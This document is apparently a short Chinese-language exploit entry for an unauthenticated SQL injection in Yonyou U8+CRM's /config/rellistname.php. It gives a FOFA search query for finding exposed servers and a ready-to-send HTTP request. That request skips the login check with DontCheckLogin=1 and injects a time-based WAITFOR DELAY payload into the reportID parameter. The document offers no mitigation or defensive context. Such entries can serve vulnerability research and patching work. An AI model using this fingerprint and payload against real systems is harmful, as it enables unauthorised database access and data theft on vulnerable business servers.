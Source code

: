 # 用友U8-CRM接口rellistname.php存在SQL注入漏洞

用友U8+CRM    /config/rellistname.php 文件多个方法存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句。

## fofa

```javascript
body="用友U8CRM" || body="/js/tfunction.js" || title="用友U8CRM"
```

## poc

```javascript
GET /config/rellistname.php?DontCheckLogin=1&objType=1&reportID=1+wAiTFOR+DeLAy'0:0:4'--+- HTTP/1.1
Host: 
Cookie: PHPSESSID=bgsesstimeout-;
```

![image-20241206230326146](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412062303231.png)